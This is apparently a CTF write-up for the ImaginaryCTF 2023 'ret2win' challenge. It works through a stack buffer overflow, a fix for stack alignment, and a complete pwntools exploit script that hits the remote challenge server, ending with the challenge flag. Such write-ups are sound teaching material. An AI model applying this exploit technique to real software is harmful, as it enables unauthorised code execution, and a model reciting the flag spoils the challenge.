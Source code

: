 ```yaml
---
title: ImaginaryCTF 2023 - ret2win
description: Writeup for ret2win pwn challenge
date: 2023-12-18
tldr: Can you overflow the buffer and get the flag?
draft: false
tags: ["ctf", "writeup", "pwn"]
---
```


# ret2win

Can you overflow the buffer and get the flag? (Hint: if your exploit isn't working on the remote server, look into stack alignment)

Attachments
https://imaginaryctf.org/r/BoCID#vuln
https://imaginaryctf.org/r/73iLJ#vuln.c 
`nc ret2win.chal.imaginaryctf.org 1337`


# lets find where the entrypoint to the function win is 

0040117a

# RIP

padding until we overwrite stack pointer

123456789101112131415161718192021222324252627282930313233343536373839404142434445464748495051525354555657585960616263646566676869707172737475767778798081828384858687888990919293949596979899100


setting a breakpointin edb at the ret on the end of main we see that this leads to 

return to `0x3434343334323431`


# checking for any security hardening in the executable

We try to use `hardening-check` to see what is enabled

```
hardening-check vuln
vuln:
 Position Independent Executable: no, normal executable!
 Stack protected: no, not found!
 Fortify Source functions: no, only unprotected functions found!
 Read-only relocations: yes
 Immediate binding: no, not found!
 Stack clash protection: unknown, no -fstack-clash-protection instructions found
 Control flow integrity: yes
```

## Executing the win function


doing just `./vuln <<< $(python -c "print(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAz\x11@\x00\x00\x00\x00\x00'.decode())"`

we see 

```
==3974== Process terminating with default action of signal 11 (SIGSEGV)
==3974==  General Protection Fault
==3974==    at 0x48B3603: do_system (system.c:148)
==3974==    by 0x401195: win (in /mnt/ctfa/ret2win/vuln)
```

most likely we are having problems with stack aligment this exploit works but segfaults on `movaps` instruction when executing the `libc` `system`

https://ropemporium.com/guide.html

> The MOVAPS issue. If you're segfaulting on a movaps instruction in buffered_vfprintf() or do_system() in the x86_64 challenges, then ensure the stack is 16-byte aligned before returning to GLIBC functions such as printf() or system(). Some versions of GLIBC uses movaps instructions to move data onto the stack in certain functions. The 64 bit calling convention requires the stack to be 16-byte aligned before a call instruction but this is easily violated during ROP chain execution, causing all further calls from that function to be made with a misaligned stack. movaps triggers a general protection fault when operating on unaligned data, so try padding your ROP chain with an extra ret before returning into a function or return further into a function to skip a push instruction.

so lets just skip this initial push to `ebp` by adding 8 to the adress skipping some initial instructions of the win function


```python
#!/usr/bin/env python3
from pwn import *

#--------Setup--------#

context(arch="amd64", os="linux")
elf = ELF("vuln", checksec=False)
print(elf)
print(elf.sym)
ret2win = elf.sym["win"]
print(ret2win)
pattern = cyclic(1024)
print(pattern)

offset = len("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")

log.info(f"{offset = }")

#--------ret2text--------#

ret2win = elf.sym["win"]
print(hex(ret2win+8))
payload = flat(
    b"\x00"*offset,
    p64(ret2win+8),
)
print(payload)

p = elf.process()

p.sendline(payload)
s = p.recvline()
print(s)
conn = remote('ret2win.chal.imaginaryctf.org',1337)
s = conn.recvline()
print(s)
conn.sendline(payload)
s = conn.recvline()
print(s)

```


`ictf{r3turn_0f_th3_k1ng?}`